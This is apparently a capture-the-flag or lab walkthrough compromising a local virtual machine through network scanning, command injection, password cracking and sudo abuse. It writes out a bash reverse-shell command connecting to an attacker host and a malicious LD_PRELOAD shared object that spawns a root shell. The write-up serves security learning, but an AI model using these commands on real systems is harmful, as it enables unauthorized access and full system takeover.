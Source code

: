 ```yaml
---
share_link: https://share.note.sx/4pw2sy1k#VkVHiwk6wr6ImdPXno0yKadnBGLuVaV6Sd9Za7bgUEg
share_updated: 2025-05-09T18:25:36+05:30
---
```


## Step 1: Reconnaissance – Discovering the Target

We begin by scanning the local network to identify available hosts using:

```bash
sudo arp-scan --local
```

![[Pasted image 20250503031552.png]]

This reveals the target machine with IP: **192.168.112.178**

---

## Step 2: Port Scanning – Identifying Open Services

We run an initial scan to see open ports:

```bash
nmap 192.168.112.178
```

![[Pasted image 20250503031626.png]]

Ports **22 (SSH)** and **80 (HTTP)** are open.

To get more detailed info, we run:

```bash
nmap 192.168.112.178 -p22,80 -sCV
```

![[Pasted image 20250503031653.png]]

Apache is running on port 80, but nothing interesting shows up here.

---

## Step 3: Gaining Foothold – Web Exploitation

We visit the web page and notice suspicious behavior in form input handling:

![[Pasted image 20250507224132.png]]

The input field has a 32-character limit, but it's enforced only on the client side. We can bypass this restriction easily using browser developer tools.

This behavior hints at a potential command injection vulnerability. To test it, we inject a reverse shell command:

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.112.156/1234 <&1'
```


This connects back to our listener and gives us a shell:

![[Pasted image 20250503032028.png]]

Exploring one level down in the directory tree, we find a password file. After downloading it, we use [CrackStation](https://crackstation.net) to successfully crack the password:

![[Pasted image 20250507223829.png]]

![[Pasted image 20250503032134.png]]



---

## Step 4: Privilege Escalation – User Access

Using the cracked password, we SSH into the system as user **pumba**:

![[Pasted image 20250503032246.png]]

---

## Step 5: Root Access – Advanced Privilege Escalation

We check sudo permissions:

![[Pasted image 20250503032354.png]]

Here we find a twist — the command has `env=LD_PRELOAD`, meaning we can inject a shared library into a process.

> **LD_PRELOAD** is an environment variable in Unix-like systems that allows you to load a custom shared library before others. It's often used for hooking or overriding functions at runtime.

We write a malicious shared object to spawn a root shell:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void spawn_shell() {
    setuid(0);
    system("/bin/bash");
}
```

Compile it:

```bash
gcc -shared -fPIC -o /tmp/shell.so shell.c
```

We then execute a binary (like `ls`) using sudo with `LD_PRELOAD` to trigger our payload:

```bash
sudo LD_PRELOAD=/tmp/shell.so ls
```

![[Pasted image 20250503032703.png]]

And just like that — we're root. 🏴‍☠️

---
